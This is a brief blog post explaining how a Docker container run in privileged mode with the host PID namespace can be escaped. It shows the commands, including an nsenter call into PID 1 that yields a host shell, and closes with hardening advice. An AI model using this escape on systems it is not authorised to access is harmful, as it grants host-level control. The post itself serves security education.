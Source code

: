 ```yaml
---
title: "#jailbreak - Escaping the container"
layout: post
date: 2019-05-25 15:00
headerImage: false
tag:
- Docker
- Privileged containers
- Root
- jailbreak
star: false
category: blog
author: robertnorthard
description: jailbreak - escaping the container
---
```


It's common knowledge that Docker containers should not be be run in privileged mode with a shared host PID namespace, but why? In this case using a program like `nsenter` you can execute a process with the context of another processes, in this case PID 1.

This example will help provide a concrete example of escaping a container, enabling you to access the hosts file system and execute shell commands.

````

$ docker-machine start default

$ docker run --privileged --rm --pid=host -ti ubuntu 

// This gives you access to the hosts file system
$ nsenter --target 1 --mount sh 

````

This one of many ways you can escape a container. When running containers you will want to drop other [capabilities](http://man7.org/linux/man-pages/man7/capabilities.7.html) such as the ability to reboot a host form inside the container.

~ Robert
